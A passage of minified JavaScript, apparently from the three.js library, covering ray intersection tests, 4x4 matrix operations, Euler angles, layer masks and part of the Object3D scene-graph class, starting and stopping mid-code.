u<=-p?(h=Math.max(0,-(-a*r+o)),u=h>0?-r:Math.min(Math.max(-r,-s),r),d=-h*h+u*(u+2*s)+l):u<=p?(h=0,u=Math.min(Math.max(-r,-s),r),d=u*(u+2*s)+l):(h=Math.max(0,-(a*r+o)),u=h>0?r:Math.min(Math.max(-r,-s),r),d=-h*h+u*(u+2*s)+l);else u=a>0?-r:r,h=Math.max(0,-(a*u+o)),d=-h*h+u*(u+2*s)+l;return n&&n.copy(this.origin).addScaledVector(this.direction,h),i&&i.copy(gn).addScaledVector(_n,u),d}intersectSphere(t,e){mn.subVectors(t.center,this.origin);const n=mn.dot(this.direction),i=mn.dot(mn)-n*n,r=t.radius*t.radius;if(i>r)return null;const a=Math.sqrt(r-i),o=n-a,s=n+a;return s<0?null:o<0?this.at(s,e):this.at(o,e)}intersectsSphere(t){return this.distanceSqToPoint(t.center)<=t.radius*t.radius}distanceToPlane(t){const e=t.normal.dot(this.direction);if(0===e)return 0===t.distanceToPoint(this.origin)?0:null;const n=-(this.origin.dot(t.normal)+t.constant)/e;return n>=0?n:null}intersectPlane(t,e){const n=this.distanceToPlane(t);return null===n?null:this.at(n,e)}intersectsPlane(t){const e=t.distanceToPoint(this.origin);if(0===e)return!0;return t.normal.dot(this.direction)*e<0}intersectBox(t,e){let n,i,r,a,o,s;const l=1/this.direction.x,c=1/this.direction.y,h=1/this.direction.z,u=this.origin;return l>=0?(n=(t.min.x-u.x)*l,i=(t.max.x-u.x)*l):(n=(t.max.x-u.x)*l,i=(t.min.x-u.x)*l),c>=0?(r=(t.min.y-u.y)*c,a=(t.max.y-u.y)*c):(r=(t.max.y-u.y)*c,a=(t.min.y-u.y)*c),n>a||r>i?null:((r>n||isNaN(n))&&(n=r),(a<i||isNaN(i))&&(i=a),h>=0?(o=(t.min.z-u.z)*h,s=(t.max.z-u.z)*h):(o=(t.max.z-u.z)*h,s=(t.min.z-u.z)*h),n>s||o>i?null:((o>n||n!=n)&&(n=o),(s<i||i!=i)&&(i=s),i<0?null:this.at(n>=0?n:i,e)))}intersectsBox(t){return null!==this.intersectBox(t,mn)}intersectTriangle(t,e,n,i,r){yn.subVectors(e,t),xn.subVectors(n,t),bn.crossVectors(yn,xn);let a,o=this.direction.dot(bn);if(o>0){if(i)return null;a=1}else{if(!(o<0))return null;a=-1,o=-o}vn.subVectors(this.origin,t);const s=a*this.direction.dot(xn.crossVectors(vn,xn));if(s<0)return null;const l=a*this.direction.dot(yn.cross(vn));if(l<0)return null;if(s+l>o)return null;const c=-a*vn.dot(bn);return c<0?null:this.at(c/o,r)}applyMatrix4(t){return this.origin.applyMatrix4(t),this.direction.transformDirection(t),this}equals(t){return t.origin.equals(this.origin)&&t.direction.equals(this.direction)}clone(){return(new this.constructor).copy(this)}}class Sn{constructor(t,e,n,i,r,a,o,s,l,c,h,u,d,p,f,m){Sn.prototype.isMatrix4=!0,this.elements=[1,0,0,0,0,1,0,0,0,0,1,0,0,0,0,1],void 0!==t&&this.set(t,e,n,i,r,a,o,s,l,c,h,u,d,p,f,m)}set(t,e,n,i,r,a,o,s,l,c,h,u,d,p,f,m){const g=this.elements;return g[0]=t,g[4]=e,g[8]=n,g[12]=i,g[1]=r,g[5]=a,g[9]=o,g[13]=s,g[2]=l,g[6]=c,g[10]=h,g[14]=u,g[3]=d,g[7]=p,g[11]=f,g[15]=m,this}identity(){return this.set(1,0,0,0,0,1,0,0,0,0,1,0,0,0,0,1),this}clone(){return(new Sn).fromArray(this.elements)}copy(t){const e=this.elements,n=t.elements;return e[0]=n[0],e[1]=n[1],e[2]=n[2],e[3]=n[3],e[4]=n[4],e[5]=n[5],e[6]=n[6],e[7]=n[7],e[8]=n[8],e[9]=n[9],e[10]=n[10],e[11]=n[11],e[12]=n[12],e[13]=n[13],e[14]=n[14],e[15]=n[15],this}copyPosition(t){const e=this.elements,n=t.elements;return e[12]=n[12],e[13]=n[13],e[14]=n[14],this}setFromMatrix3(t){const e=t.elements;return this.set(e[0],e[3],e[6],0,e[1],e[4],e[7],0,e[2],e[5],e[8],0,0,0,0,1),this}extractBasis(t,e,n){return t.setFromMatrixColumn(this,0),e.setFromMatrixColumn(this,1),n.setFromMatrixColumn(this,2),this}makeBasis(t,e,n){return this.set(t.x,e.x,n.x,0,t.y,e.y,n.y,0,t.z,e.z,n.z,0,0,0,0,1),this}extractRotation(t){const e=this.elements,n=t.elements,i=1/En.setFromMatrixColumn(t,0).length(),r=1/En.setFromMatrixColumn(t,1).length(),a=1/En.setFromMatrixColumn(t,2).length();return e[0]=n[0]*i,e[1]=n[1]*i,e[2]=n[2]*i,e[3]=0,e[4]=n[4]*r,e[5]=n[5]*r,e[6]=n[6]*r,e[7]=0,e[8]=n[8]*a,e[9]=n[9]*a,e[10]=n[10]*a,e[11]=0,e[12]=0,e[13]=0,e[14]=0,e[15]=1,this}makeRotationFromEuler(t){const e=this.elements,n=t.x,i=t.y,r=t.z,a=Math.cos(n),o=Math.sin(n),s=Math.cos(i),l=Math.sin(i),c=Math.cos(r),h=Math.sin(r);if("XYZ"===t.order){const t=a*c,n=a*h,i=o*c,r=o*h;e[0]=s*c,e[4]=-s*h,e[8]=l,e[1]=n+i*l,e[5]=t-r*l,e[9]=-o*s,e[2]=r-t*l,e[6]=i+n*l,e[10]=a*s}else if("YXZ"===t.order){const t=s*c,n=s*h,i=l*c,r=l*h;e[0]=t+r*o,e[4]=i*o-n,e[8]=a*l,e[1]=a*h,e[5]=a*c,e[9]=-o,e[2]=n*o-i,e[6]=r+t*o,e[10]=a*s}else if("ZXY"===t.order){const t=s*c,n=s*h,i=l*c,r=l*h;e[0]=t-r*o,e[4]=-a*h,e[8]=i+n*o,e[1]=n+i*o,e[5]=a*c,e[9]=r-t*o,e[2]=-a*l,e[6]=o,e[10]=a*s}else if("ZYX"===t.order){const t=a*c,n=a*h,i=o*c,r=o*h;e[0]=s*c,e[4]=i*l-n,e[8]=t*l+r,e[1]=s*h,e[5]=r*l+t,e[9]=n*l-i,e[2]=-l,e[6]=o*s,e[10]=a*s}else if("YZX"===t.order){const t=a*s,n=a*l,i=o*s,r=o*l;e[0]=s*c,e[4]=r-t*h,e[8]=i*h+n,e[1]=h,e[5]=a*c,e[9]=-o*c,e[2]=-l*c,e[6]=n*h+i,e[10]=t-r*h}else if("XZY"===t.order){const t=a*s,n=a*l,i=o*s,r=o*l;e[0]=s*c,e[4]=-h,e[8]=l*c,e[1]=t*h+r,e[5]=a*c,e[9]=n*h-i,e[2]=i*h-n,e[6]=o*c,e[10]=r*h+t}return e[3]=0,e[7]=0,e[11]=0,e[12]=0,e[13]=0,e[14]=0,e[15]=1,this}makeRotationFromQuaternion(t){return this.compose(Tn,t,An)}lookAt(t,e,n){const i=this.elements;return Pn.subVectors(t,e),0===Pn.lengthSq()&&(Pn.z=1),Pn.normalize(),Cn.crossVectors(n,Pn),0===Cn.lengthSq()&&(1===Math.abs(n.z)?Pn.x+=1e-4:Pn.z+=1e-4,Pn.normalize(),Cn.crossVectors(n,Pn)),Cn.normalize(),Rn.crossVectors(Pn,Cn),i[0]=Cn.x,i[4]=Rn.x,i[8]=Pn.x,i[1]=Cn.y,i[5]=Rn.y,i[9]=Pn.y,i[2]=Cn.z,i[6]=Rn.z,i[10]=Pn.z,this}multiply(t){return this.multiplyMatrices(this,t)}premultiply(t){return this.multiplyMatrices(t,this)}multiplyMatrices(t,e){const n=t.elements,i=e.elements,r=this.elements,a=n[0],o=n[4],s=n[8],l=n[12],c=n[1],h=n[5],u=n[9],d=n[13],p=n[2],f=n[6],m=n[10],g=n[14],_=n[3],v=n[7],y=n[11],x=n[15],b=i[0],M=i[4],S=i[8],E=i[12],w=i[1],T=i[5],A=i[9],C=i[13],R=i[2],P=i[6],L=i[10],D=i[14],I=i[3],O=i[7],U=i[11],N=i[15];return r[0]=a*b+o*w+s*R+l*I,r[4]=a*M+o*T+s*P+l*O,r[8]=a*S+o*A+s*L+l*U,r[12]=a*E+o*C+s*D+l*N,r[1]=c*b+h*w+u*R+d*I,r[5]=c*M+h*T+u*P+d*O,r[9]=c*S+h*A+u*L+d*U,r[13]=c*E+h*C+u*D+d*N,r[2]=p*b+f*w+m*R+g*I,r[6]=p*M+f*T+m*P+g*O,r[10]=p*S+f*A+m*L+g*U,r[14]=p*E+f*C+m*D+g*N,r[3]=_*b+v*w+y*R+x*I,r[7]=_*M+v*T+y*P+x*O,r[11]=_*S+v*A+y*L+x*U,r[15]=_*E+v*C+y*D+x*N,this}multiplyScalar(t){const e=this.elements;return e[0]*=t,e[4]*=t,e[8]*=t,e[12]*=t,e[1]*=t,e[5]*=t,e[9]*=t,e[13]*=t,e[2]*=t,e[6]*=t,e[10]*=t,e[14]*=t,e[3]*=t,e[7]*=t,e[11]*=t,e[15]*=t,this}determinant(){const t=this.elements,e=t[0],n=t[4],i=t[8],r=t[12],a=t[1],o=t[5],s=t[9],l=t[13],c=t[2],h=t[6],u=t[10],d=t[14];return t[3]*(+r*s*h-i*l*h-r*o*u+n*l*u+i*o*d-n*s*d)+t[7]*(+e*s*d-e*l*u+r*a*u-i*a*d+i*l*c-r*s*c)+t[11]*(+e*l*h-e*o*d-r*a*h+n*a*d+r*o*c-n*l*c)+t[15]*(-i*o*c-e*s*h+e*o*u+i*a*h-n*a*u+n*s*c)}transpose(){const t=this.elements;let e;return e=t[1],t[1]=t[4],t[4]=e,e=t[2],t[2]=t[8],t[8]=e,e=t[6],t[6]=t[9],t[9]=e,e=t[3],t[3]=t[12],t[12]=e,e=t[7],t[7]=t[13],t[13]=e,e=t[11],t[11]=t[14],t[14]=e,this}setPosition(t,e,n){const i=this.elements;return t.isVector3?(i[12]=t.x,i[13]=t.y,i[14]=t.z):(i[12]=t,i[13]=e,i[14]=n),this}invert(){const t=this.elements,e=t[0],n=t[1],i=t[2],r=t[3],a=t[4],o=t[5],s=t[6],l=t[7],c=t[8],h=t[9],u=t[10],d=t[11],p=t[12],f=t[13],m=t[14],g=t[15],_=h*m*l-f*u*l+f*s*d-o*m*d-h*s*g+o*u*g,v=p*u*l-c*m*l-p*s*d+a*m*d+c*s*g-a*u*g,y=c*f*l-p*h*l+p*o*d-a*f*d-c*o*g+a*h*g,x=p*h*s-c*f*s-p*o*u+a*f*u+c*o*m-a*h*m,b=e*_+n*v+i*y+r*x;if(0===b)return this.set(0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0);const M=1/b;return t[0]=_*M,t[1]=(f*u*r-h*m*r-f*i*d+n*m*d+h*i*g-n*u*g)*M,t[2]=(o*m*r-f*s*r+f*i*l-n*m*l-o*i*g+n*s*g)*M,t[3]=(h*s*r-o*u*r-h*i*l+n*u*l+o*i*d-n*s*d)*M,t[4]=v*M,t[5]=(c*m*r-p*u*r+p*i*d-e*m*d-c*i*g+e*u*g)*M,t[6]=(p*s*r-a*m*r-p*i*l+e*m*l+a*i*g-e*s*g)*M,t[7]=(a*u*r-c*s*r+c*i*l-e*u*l-a*i*d+e*s*d)*M,t[8]=y*M,t[9]=(p*h*r-c*f*r-p*n*d+e*f*d+c*n*g-e*h*g)*M,t[10]=(a*f*r-p*o*r+p*n*l-e*f*l-a*n*g+e*o*g)*M,t[11]=(c*o*r-a*h*r-c*n*l+e*h*l+a*n*d-e*o*d)*M,t[12]=x*M,t[13]=(c*f*i-p*h*i+p*n*u-e*f*u-c*n*m+e*h*m)*M,t[14]=(p*o*i-a*f*i-p*n*s+e*f*s+a*n*m-e*o*m)*M,t[15]=(a*h*i-c*o*i+c*n*s-e*h*s-a*n*u+e*o*u)*M,this}scale(t){const e=this.elements,n=t.x,i=t.y,r=t.z;return e[0]*=n,e[4]*=i,e[8]*=r,e[1]*=n,e[5]*=i,e[9]*=r,e[2]*=n,e[6]*=i,e[10]*=r,e[3]*=n,e[7]*=i,e[11]*=r,this}getMaxScaleOnAxis(){const t=this.elements,e=t[0]*t[0]+t[1]*t[1]+t[2]*t[2],n=t[4]*t[4]+t[5]*t[5]+t[6]*t[6],i=t[8]*t[8]+t[9]*t[9]+t[10]*t[10];return Math.sqrt(Math.max(e,n,i))}makeTranslation(t,e,n){return t.isVector3?this.set(1,0,0,t.x,0,1,0,t.y,0,0,1,t.z,0,0,0,1):this.set(1,0,0,t,0,1,0,e,0,0,1,n,0,0,0,1),this}makeRotationX(t){const e=Math.cos(t),n=Math.sin(t);return this.set(1,0,0,0,0,e,-n,0,0,n,e,0,0,0,0,1),this}makeRotationY(t){const e=Math.cos(t),n=Math.sin(t);return this.set(e,0,n,0,0,1,0,0,-n,0,e,0,0,0,0,1),this}makeRotationZ(t){const e=Math.cos(t),n=Math.sin(t);return this.set(e,-n,0,0,n,e,0,0,0,0,1,0,0,0,0,1),this}makeRotationAxis(t,e){const n=Math.cos(e),i=Math.sin(e),r=1-n,a=t.x,o=t.y,s=t.z,l=r*a,c=r*o;return this.set(l*a+n,l*o-i*s,l*s+i*o,0,l*o+i*s,c*o+n,c*s-i*a,0,l*s-i*o,c*s+i*a,r*s*s+n,0,0,0,0,1),this}makeScale(t,e,n){return this.set(t,0,0,0,0,e,0,0,0,0,n,0,0,0,0,1),this}makeShear(t,e,n,i,r,a){return this.set(1,n,r,0,t,1,a,0,e,i,1,0,0,0,0,1),this}compose(t,e,n){const i=this.elements,r=e._x,a=e._y,o=e._z,s=e._w,l=r+r,c=a+a,h=o+o,u=r*l,d=r*c,p=r*h,f=a*c,m=a*h,g=o*h,_=s*l,v=s*c,y=s*h,x=n.x,b=n.y,M=n.z;return i[0]=(1-(f+g))*x,i[1]=(d+y)*x,i[2]=(p-v)*x,i[3]=0,i[4]=(d-y)*b,i[5]=(1-(u+g))*b,i[6]=(m+_)*b,i[7]=0,i[8]=(p+v)*M,i[9]=(m-_)*M,i[10]=(1-(u+f))*M,i[11]=0,i[12]=t.x,i[13]=t.y,i[14]=t.z,i[15]=1,this}decompose(t,e,n){const i=this.elements;let r=En.set(i[0],i[1],i[2]).length();const a=En.set(i[4],i[5],i[6]).length(),o=En.set(i[8],i[9],i[10]).length();this.determinant()<0&&(r=-r),t.x=i[12],t.y=i[13],t.z=i[14],wn.copy(this);const s=1/r,l=1/a,c=1/o;return wn.elements[0]*=s,wn.elements[1]*=s,wn.elements[2]*=s,wn.elements[4]*=l,wn.elements[5]*=l,wn.elements[6]*=l,wn.elements[8]*=c,wn.elements[9]*=c,wn.elements[10]*=c,e.setFromRotationMatrix(wn),n.x=r,n.y=a,n.z=o,this}makePerspective(t,e,n,i,r,a,o=2e3){const s=this.elements,l=2*r/(e-t),c=2*r/(n-i),h=(e+t)/(e-t),u=(n+i)/(n-i);let d,p;if(o===re)d=-(a+r)/(a-r),p=-2*a*r/(a-r);else{if(o!==ae)throw new Error("THREE.Matrix4.makePerspective(): Invalid coordinate system: "+o);d=-a/(a-r),p=-a*r/(a-r)}return s[0]=l,s[4]=0,s[8]=h,s[12]=0,s[1]=0,s[5]=c,s[9]=u,s[13]=0,s[2]=0,s[6]=0,s[10]=d,s[14]=p,s[3]=0,s[7]=0,s[11]=-1,s[15]=0,this}makeOrthographic(t,e,n,i,r,a,o=2e3){const s=this.elements,l=1/(e-t),c=1/(n-i),h=1/(a-r),u=(e+t)*l,d=(n+i)*c;let p,f;if(o===re)p=(a+r)*h,f=-2*h;else{if(o!==ae)throw new Error("THREE.Matrix4.makeOrthographic(): Invalid coordinate system: "+o);p=r*h,f=-1*h}return s[0]=2*l,s[4]=0,s[8]=0,s[12]=-u,s[1]=0,s[5]=2*c,s[9]=0,s[13]=-d,s[2]=0,s[6]=0,s[10]=f,s[14]=-p,s[3]=0,s[7]=0,s[11]=0,s[15]=1,this}equals(t){const e=this.elements,n=t.elements;for(let t=0;t<16;t++)if(e[t]!==n[t])return!1;return!0}fromArray(t,e=0){for(let n=0;n<16;n++)this.elements[n]=t[n+e];return this}toArray(t=[],e=0){const n=this.elements;return t[e]=n[0],t[e+1]=n[1],t[e+2]=n[2],t[e+3]=n[3],t[e+4]=n[4],t[e+5]=n[5],t[e+6]=n[6],t[e+7]=n[7],t[e+8]=n[8],t[e+9]=n[9],t[e+10]=n[10],t[e+11]=n[11],t[e+12]=n[12],t[e+13]=n[13],t[e+14]=n[14],t[e+15]=n[15],t}}const En=new Xe,wn=new Sn,Tn=new Xe(0,0,0),An=new Xe(1,1,1),Cn=new Xe,Rn=new Xe,Pn=new Xe,Ln=new Sn,Dn=new We;class In{constructor(t=0,e=0,n=0,i=In.DEFAULT_ORDER){this.isEuler=!0,this._x=t,this._y=e,this._z=n,this._order=i}get x(){return this._x}set x(t){this._x=t,this._onChangeCallback()}get y(){return this._y}set y(t){this._y=t,this._onChangeCallback()}get z(){return this._z}set z(t){this._z=t,this._onChangeCallback()}get order(){return this._order}set order(t){this._order=t,this._onChangeCallback()}set(t,e,n,i=this._order){return this._x=t,this._y=e,this._z=n,this._order=i,this._onChangeCallback(),this}clone(){return new this.constructor(this._x,this._y,this._z,this._order)}copy(t){return this._x=t._x,this._y=t._y,this._z=t._z,this._order=t._order,this._onChangeCallback(),this}setFromRotationMatrix(t,e=this._order,n=!0){const i=t.elements,r=i[0],a=i[4],o=i[8],s=i[1],l=i[5],c=i[9],h=i[2],u=i[6],d=i[10];switch(e){case"XYZ":this._y=Math.asin(de(o,-1,1)),Math.abs(o)<.9999999?(this._x=Math.atan2(-c,d),this._z=Math.atan2(-a,r)):(this._x=Math.atan2(u,l),this._z=0);break;case"YXZ":this._x=Math.asin(-de(c,-1,1)),Math.abs(c)<.9999999?(this._y=Math.atan2(o,d),this._z=Math.atan2(s,l)):(this._y=Math.atan2(-h,r),this._z=0);break;case"ZXY":this._x=Math.asin(de(u,-1,1)),Math.abs(u)<.9999999?(this._y=Math.atan2(-h,d),this._z=Math.atan2(-a,l)):(this._y=0,this._z=Math.atan2(s,r));break;case"ZYX":this._y=Math.asin(-de(h,-1,1)),Math.abs(h)<.9999999?(this._x=Math.atan2(u,d),this._z=Math.atan2(s,r)):(this._x=0,this._z=Math.atan2(-a,l));break;case"YZX":this._z=Math.asin(de(s,-1,1)),Math.abs(s)<.9999999?(this._x=Math.atan2(-c,l),this._y=Math.atan2(-h,r)):(this._x=0,this._y=Math.atan2(o,d));break;case"XZY":this._z=Math.asin(-de(a,-1,1)),Math.abs(a)<.9999999?(this._x=Math.atan2(u,l),this._y=Math.atan2(o,r)):(this._x=Math.atan2(-c,d),this._y=0);break;default:console.warn("THREE.Euler: .setFromRotationMatrix() encountered an unknown order: "+e)}return this._order=e,!0===n&&this._onChangeCallback(),this}setFromQuaternion(t,e,n){return Ln.makeRotationFromQuaternion(t),this.setFromRotationMatrix(Ln,e,n)}setFromVector3(t,e=this._order){return this.set(t.x,t.y,t.z,e)}reorder(t){return Dn.setFromEuler(this),this.setFromQuaternion(Dn,t)}equals(t){return t._x===this._x&&t._y===this._y&&t._z===this._z&&t._order===this._order}fromArray(t){return this._x=t[0],this._y=t[1],this._z=t[2],void 0!==t[3]&&(this._order=t[3]),this._onChangeCallback(),this}toArray(t=[],e=0){return t[e]=this._x,t[e+1]=this._y,t[e+2]=this._z,t[e+3]=this._order,t}_onChange(t){return this._onChangeCallback=t,this}_onChangeCallback(){}*[Symbol.iterator](){yield this._x,yield this._y,yield this._z,yield this._order}}In.DEFAULT_ORDER="XYZ";class On{constructor(){this.mask=1}set(t){this.mask=1<<t>>>0}enable(t){this.mask|=1<<t}enableAll(){this.mask=-1}toggle(t){this.mask^=1<<t}disable(t){this.mask&=~(1<<t)}disableAll(){this.mask=0}test(t){return!!(this.mask&t.mask)}isEnabled(t){return!!(this.mask&1<<t)}}let Un=0;const Nn=new Xe,Fn=new We,kn=new Sn,zn=new Xe,Bn=new Xe,Hn=new Xe,Vn=new We,Gn=new Xe(1,0,0),jn=new Xe(0,1,0),Wn=new Xe(0,0,1),Xn={type:"added"},qn={type:"removed"},Yn={type:"childadded",child:null},Kn={type:"childremoved",child:null};class Zn extends oe{constructor(){super(),this.isObject3D=!0,Object.defineProperty(this,"id",{value:Un++}),this.uuid=ue(),this.name="",this.type="Object3D",this.parent=null,this.children=[],this.up=Zn.DEFAULT_UP.clone();const t=new Xe,e=new In,n=new We,i=new Xe(1,1,1);e._onChange((function(){n.setFromEuler(e,!1)})),n._onChange((function(){e.setFromQuaternion(n,void 0,!1)})),Object.defineProperties(this,{position:{configurable:!0,enumerable:!0,value:t},rotation:{configurable:!0,enumerable:!0,value:e},quaternion:{configurable:!0,enumerable:!0,value:n},scale:{configurable:!0,enumerable:!0,value:i},modelViewMatrix:{value:new Sn},normalMatrix:{value:new ye}}),this.matrix=new Sn,this.matrixWorld=new Sn,this.matrixAutoUpdate=Zn.DEFAULT_MATRIX_AUTO_UPDATE,this.matrixWorldAutoUpdate=Zn.DEFAULT_MATRIX_WORLD_AUTO_UPDATE,this.matrixWorldNeedsUpdate=!1,this.layers=new On,this.visible=!0,this.castShadow=!1,this.receiveShadow=!1,this.frustumCulled=!0,this.renderOrder=0,this.animations=[],this.userData={}}onBeforeShadow(){}onAfterShadow(){}onBeforeRender(){}onAfterRender(){}applyMatrix4(t){this.matrixAutoUpdate&&this.updateMatrix(),this.matrix.premultiply(t),this.matrix.decompose(this.position,this.quaternion,this.scale)}applyQuaternion(t){return this.quaternion.premultiply(t),this}setRotationFromAxisAngle(t,e){this.quaternion.setFromAxisAngle(t,e)}setRotationFromEuler(t){this.quaternion.setFromEuler(t,!0)}setRotationFromMatrix(t){this.quaternion.setFromRotationMatrix(t)}setRotationFromQuaternion(t){this.quaternion.copy(t)}rotateOnAxis(t,e){return Fn.setFromAxisAngle(t,e),this.quaternion.multiply(Fn),this}rotateOnWorldAxis(t,e){return Fn.setFromAxisAngle(t,e),this.quaternion.premultiply(Fn),this}rotateX(t){return this.rotateOnAxis(Gn,t)}rotateY(t){return this.rotateOnAxis(jn,t)}rotateZ(t){return this.rotateOnAxis(Wn,t)}translateOnAxis(t,e){return Nn.copy(t).applyQuaternion(this.quaternion),this.position.add(Nn.multiplyScalar(e)),this}translateX(t){return this.translateOnAxis(Gn,t)}translateY(t){return this.translateOnAxis(jn,t)}translateZ(t){return this.translateOnAxis(Wn,t)}localToWorld(t){return this.updateWorldMatrix(!0,!1),t.applyMatrix4(this.matrixWorld)}worldToLocal(t){return this.updateWorldMatrix(!0,!1),t.applyMatrix4(kn.copy(this.matrixWorld).invert())}lookAt(t,e,n){t.isVector3?zn.copy(t):zn.set(t,e,n);const i=this.parent;this.updateWorldMatrix(!0,!1),Bn.setFromMatrixPosition(this.matrixWorld),this.isCamera||this.isLight?kn.lookAt(Bn,zn,this.up):kn.lookAt(zn,Bn,this.up),this.quaternion.setFromRotationMatrix(kn),i&&(kn.extractRotation(i.matrixWorld),Fn.setFromRotationMatrix(kn),this.quaternion.premultiply(Fn.invert()))}add(t){if(arguments.length>1){for(let t=0;t<arguments.length;t++)this.add(arguments[t]);return this}return t===this?(console.error("THREE.Object3D.add: object can't be added as a child of itself.",t),this):(t&&t.isObject3D?(t.removeFromParent(),t.parent=this,this.children.push(t),t.dispatchEvent(Xn),Yn.child=t,this.dispatchEvent(Yn),Yn.child=null):console.error("THREE.Object3D.add: object not an instance of THREE.Object3D.",t),this)}remove(t){if(arguments.length>1){for(let t=0;t<arguments.length;t++)this.remove(arguments[t]);return this}const e=this.children.indexOf(t);return-1!==e&&(t.parent=null,this.children.splice(e,1),t.dispatchEvent(qn),Kn.child=t,this.dispatchEvent(Kn),Kn.child=null),this}removeFromParent(){const t=this.parent;return null!==t&&t.remove(this),this}clear(){return this.remove(...this.children)}attach(t){return this.updateWorldMatrix(!0,!1),kn.copy(this.matrixWorld).invert(),null!==t.parent&&(t.parent.updateWorldMatrix(!0,!1),kn.multiply(t.parent.matrixWorld)),t.applyMatrix4(kn),t.removeFromParent(),t.parent=this,this.children.push(t),t.updateWorldMatrix(!1,!0),t.dispatchEvent(Xn),Yn.child=t,this.dispatchEvent(Yn),Yn.child=null,this}getObjectById(t){return this.getObjectByProperty("id",t)}getObjectByName(t){return this.getObjectByProperty("name",t)}getObjectByProperty(t,e){if(this[t]===e)return this;for(let n=0,i=this.children.length;n<i;n++){const i=this.children[n].getObjectByProperty(t,e);if(void 0!==i)return i}}getObjectsByProperty(t,e,n=[]){this[t]===e&&n.push(this);const i=this.children;for(let r=0,a=i.length;r<a;r++)i[r].getObjectsByProperty(t,e,n);return n}getWorldPosition(t){return this.updateWorldMatrix(!0,!1),t.setFromMatrixPosition(this.matrixWorld)}getWorldQuaternion(t){return this.updateWorldMatrix(!0,!1),this.matrixWorld.decompose(Bn,t,Hn),t}getWorldScale(t){return this.updateWorldMatrix(!0,!1),this.matrixWorld.decompose(Bn,Vn,t),t}getWorldDirection(t){this.updateWorldMatrix(!0,!1);const e=this.matrixWorld.elements;return t.set(e[8],e[9],e[10]).normalize()}raycast(){}traverse(t){t(this);const e=this.children;for(let n=0,i=e.length;n<i;n++)e[n].traverse(t)}traverseVisible(t){if(!1===this.visible)return;t(this);const e=this.children;for(let n=0,i=e.length;n<i;n++)e[n].traverseVisible(t)}traverseAncestors(t){const e=this.parent;null!==e&&(t(e),e.traverseAncestors(t))}updateMatrix(){this.matrix.compose(this.position,this.quaternion,this.scale),this.matrixWorldNeedsUpdate=!0}updateMatrixWorld(t){this.matrixAutoUpdate&&this.updateMatrix(),(this.matrixWorldNeedsUpdate||t)&&(!0===this.matrixWorldAutoUpdate&&(null===this.parent?this.matrixWorld.copy(this.matrix):this.matrixWorld.multiplyMatrices(this.parent.matrixWorld,this.matrix)),this.matrixWorldNeedsUpdate=!1,t=!0);const e=this.children;for(let n=0,i=e.length;n<i;n++){e[n].updateMatrixWorld(t)}}updateWorldMatrix(t,e){const n=this.parent;if(!0===t&&null!==n&&n.updateWorldMatrix(!0,!1),this.matrixAutoUpdate&&this.updateMatrix(),!0===this.matrixWorldAutoUpdate&&(null===this.parent?this.matrixWorld.copy(this.matrix):this.matrixWorld.multiplyMatrices(this.parent.matrixWorld,this.matrix)),!0===e){const t=this.children;for(let e=0,n=t.length;e<n;e++){t[e].updateWorldMatrix(!1,!0)}}}toJSON(t){const e=void 0===t||"string"==typeof t,n={};e&&(t={geometries:{},materials:{},textures:{},images:{},shapes:{},skeletons:{},animations:{},nodes:{}},n.metadata={version:4.6,type:"Object",generator:"Object3D.toJSON"});const i={};function r(e,n){return void 0===e[n.uuid]&&(e[n.uuid]=n.toJSON(t)),n.uuid}if(i.uuid=this.uuid,i.type=this.type,""!==this.name&&(i.name=this.name),!0===this.castShadow&&(i.castShadow=!0),!0===this.receiveShadow&&(i.receiveShadow=!0),!1===this.visible&&(i.visible=!1),!1===this.frustumCulled&&(i.frustumCulled=!1),0!==this.renderOrder&&(i.renderOrder=this.renderOrder),Object.keys(this.userData).length>0&&(i.userData=this.userData),i.layers=this.layers.mask,i.matrix=this.matrix.toArray(),i.up=this.up.toArray(),!1===this.matrixAutoUpdate&&(i.matrixAutoUpdate=!1),this.isInstancedMesh&&(i.type="InstancedMesh",i.count=this.count,i.instanceMatrix=this.instanceMatrix.toJSON(),null!==this.instanceColor&&(i.instanceColor=this.instanceColor.toJSON())),this.isBatchedMesh&&(i.type="BatchedMesh",i.perObjectFrustumCulled=this.perObjectFrustumCulled,i.sortObjects=this.sortObjects,i.drawRanges=this._drawRanges,i.reservedRanges=this._reservedRanges,i.visibility=this._visibility,i.active=this._active,i.bounds=this._bounds.map((t=>({boxInitialized:t.boxInitialized,boxMin:t.box.min.toArray(),boxMax:t.box.max.toArray(),sphereInitialized:t.sphereInitialized,sphereRadius:t.sphere.radius,sphereCenter:t.sphere.center.toArray()}))),i.maxInstanceCount=this._maxInstanceCount,i.maxVertexCount=this._maxVertexCount,i.maxIndexCount=this._maxIndexCount,i.geometryInitialized=this._geometryInitialized,i.geometryCount=this._geometryCount,i.matricesTexture=this._matricesTexture.toJSON(t),null!==this._colorsTexture&&(i.colorsTexture=this._colorsTexture.toJSON(t)),null!==this.boundingSphere&&(i.boundingSphere={center:i.boundingSphere.center.toArray(),radius:i.boundingSphere.radius}),null!==this.boundingBox&&(i.boundingBox={min:i.boundingBox.min.toArray(),max:i.boundingBox.max.toArray()})),this.isScene)this.background&&(this.background.isColor?i.background=this.background.toJSON():this.background.isTexture&&(i.background=this.background.toJSON(t).uuid)),this.environment&&this.environment.isTexture&&!0!==this.environment.isRenderTargetTexture&&(i.environment=this.environment.toJSON(t).uuid);else if(this.isMesh||this.isLine||this.isPoints){i.geometry=r(t.geometries,this.geometry);const e=this.geometry.parameters;if(void 0!==e&&void 0!==e.shapes){const n=e.shapes;if(Array.isArray(n))for(let e=0,i=n.length;e<i;e++){const i=n[e];r(t.shapes,i)}else r(t.shapes,n)}}if(this.isSkinnedMesh&&(i.bindMode=this.bindMode,i.bindMatrix=this.bindMatrix.toArray(),void 0!==this.skeleton&&(r(t.skeletons,this.skeleton),i.skeleton=this.skeleton.uuid)),void 0!==this.material)if(Array.isArray(this.material)){const e=[];for(let n=0,i=this.material.length;n<i;n++)e.push(r(t.materials,this.material[n]));i.material=e}else i.material=r(t.materials,this.material);if(this.children.length>0){i.children=[];for(let e=0;e<this.children.length;e++)i.children.push(this.children[e].toJSON(t).object)}if(this.animations.length>0){i.animations=[];for(let e=0;e<this.animations.length;e++){const n=this.animations[e];i.animations.push(r(t.animations,n))}}if(e){const e=a(t.geometries),i=a(t.materials),r=a(t.textures),o=a(t.images),s=a(t.shapes),l=a(t.skeletons),c=a(t.animations),h=a(t.nodes);e.length>0&&(n.geometries=e),i.length>0&&(n.materials=i),r.length>0&&(n.textures=r),o.length>0&&(n.images=o),s.length>0&&(n.shapes=s),l.length>0&&(n.skeletons=l),c.length>0&&(n.animations=c),h.length>0&&(n.nodes=h)}return 